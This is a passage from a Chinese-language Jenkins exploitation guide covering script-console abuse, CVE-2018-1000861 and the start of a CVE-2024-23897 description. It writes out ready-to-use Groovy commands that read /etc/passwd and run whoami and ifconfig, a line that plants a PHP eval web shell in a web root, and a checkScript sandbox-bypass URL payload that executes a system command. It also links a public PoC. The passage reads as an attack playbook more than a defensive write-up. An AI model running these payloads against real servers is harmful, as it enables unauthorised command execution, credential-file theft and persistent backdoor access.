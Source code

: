2.登录后台访问script  
  
登录后台，或在未授权的情况下访问  
  
http://xxx.xxx.xxx.xxx/script  
  
3.在脚本命命令模块执行系统命令  
  
println 'cat /etc/passwd'.execute().text  
  
println "whoami".execute().text  
  
println "ifconfig".execute().text  
  
new File("D:\\phpstudy_pro\\WWW\\php_shell.php").write('<?php @eval($_POST[cmd]);?>');  
### 1.1.5checkScript 远程命令执行漏洞 CVE-2018-1000861  
  
漏洞描述  
  
Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。  
  
通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。  
  
#漏洞影响  
  
Jenkins version < 2.138  
  
Jenkins build time < 2019-01-28  
  
#网络测绘  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VGuVH0Ahzqn7w3ult3alMG8L5Kogt0ibjNicDo1M8H394kDxoMjGfT9JqPFjUEyRr6ibQh5bQ2oibjX1w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VGuVH0Ahzqn7w3ult3alMG8RFiaaPEO9Yzn5dckQib0Jrf1jQr6DAMhpkckY1fR0IlNfib3icpOFnB67Q/640?wx_fmt=png&from=appmsg "")  
  
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript  
  
?sandbox=true  
  
&value=public class x {  
  
  public x(){  
  
    "touch /tmp/success".execute()  
  
  }  
  
poc利用代码：  
  
https://github.com/orangetw/awesome-jenkins-rce-2019  
### 1.1.6 CVE-2024-23897  
  
1.漏洞简介  
  
它允许未经认证的攻击者拥有“overall/read”权限，从而读取Jenkins服务器上任意文件中的数据。即使没有这个权限的攻击者也能读取文件的前几行，具体行数取决于可用的CLI命令。这个漏洞源自Jenkins中args4j命令解析器的默认行为，当参数以"@"字符开始时，它会自动将文件内容扩展为命令参数，这允许未经授权的任意文件读取行为在Jenkins控制器文件系统上发生。利用这个漏洞可用来读取包含加密密钥的二进制文件，虽然漏洞利用需要特定的条件，但是提取秘密为各种攻击提供了便利，例如：  
  
通过资源根 URL 远程执行代码；  
  